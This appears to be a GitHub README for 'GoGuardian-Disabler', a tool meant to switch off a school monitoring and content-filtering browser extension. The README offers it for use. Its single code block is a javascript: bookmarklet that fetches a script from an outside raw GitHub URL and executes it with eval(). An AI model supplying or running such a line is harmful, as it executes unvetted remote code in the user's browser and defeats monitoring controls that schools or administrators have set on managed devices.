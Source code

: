 # GoGuardian-Disabler
A more advanced version of Tinotin1's script. Automatically takes you to the webstore so you can execute it wherever you are.

```
javascript:fetch(`https://raw.githubusercontent.com/meatballsong1/Extension-test/main/disable.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
